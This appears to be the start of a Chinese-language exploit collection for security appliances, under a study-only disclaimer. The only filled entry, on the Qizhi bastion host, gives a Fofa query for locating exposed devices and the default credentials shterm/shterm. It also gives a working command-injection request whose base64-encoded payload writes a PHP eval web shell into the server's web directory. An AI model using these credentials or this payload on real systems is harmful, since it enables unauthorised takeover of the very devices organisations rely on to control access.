 # SecDevice - Exploits

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

## 大纲

* **身份与访问控制**
    * [堡垒机](#堡垒机)
    * [IMC](#img)

* **网络检测与响应**
    * [蜜罐](#蜜罐)
    * [IDS](#ids)
    * [防火墙](#防火墙)
    * [WAF](#waf)
    * [网关](#网关)
    * [负载均衡](#负载均衡)
    * [VPN](#vpn)

* **终端响应与检测**
    * [杀软](#杀软)
    * [EDR](#edr)
    * [数据防泄漏系统](#数据防泄漏系统)

---

## 身份与访问控制

### 堡垒机

**齐治堡垒机**

> Fofa: app="齐治科技-堡垒机"

- **默认口令**
    - shterm/shterm

- **齐治堡垒机 ShtermClient-2.1.1 命令执行漏洞**
    - [齐治堡垒机ShtermClient-2.1.1命令执行漏洞（CNVD-2019-09593）分析](https://www.cnblogs.com/StudyCat/p/11201725.html)
        ```
        http://10.20.10.11/listener/cluster_manage.php
        https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash`|${IFS}|echo${IFS}
        /var/www/shterm/resources/qrcode/lbj77.php  密码10086
        ```
